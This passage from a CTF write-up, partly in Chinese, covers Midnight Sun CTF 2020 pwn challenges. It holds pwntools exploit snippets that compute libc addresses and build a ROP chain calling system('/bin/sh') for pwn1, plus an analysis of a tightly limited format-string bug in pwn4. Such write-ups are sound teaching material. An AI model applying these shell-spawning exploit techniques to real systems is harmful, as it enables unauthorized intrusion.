 address of other function/string in libc can be calculated as follow:

```python
system = libcbase+libc.sym['system']
binsh  = libcbase+libc.search('/bin/sh').next()
```

#### getshell

finally, execute `system('/bin/sh')`

```python
# rop2
ru('buffer: ')
payload = cyclic(offset)
payload += p64(ret) + p64(prdi) + p64(binsh) + p64(system) + p64(main)
# debug()
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/pwn1) 

## pwn2 (80pt)

## pwn3 (91pt)

## pwn4 (172pt, unsolved)

- 题目描述：
  
    > An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
- 题目附件：[pwn4](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn4/pwn4)
- 考察点：格式化字符串
- 难度：好难呀
- 初始分值：100
- 最终分值：172
- 完成人数：28

### 程序分析

限制十分苛刻的一个格式化字符串漏洞，字符串长度只有13：

![](http://image.taqini.space/img/2020-04-05_19-09.png)

* `v10`是`mmap+mprotect`的一个随机整数，只读

* 格式化字符串漏洞在`log_attempt`中

* `v8`等于`v10`时给shell，但是`v8`是个4位数，基本上等于不了`v10`
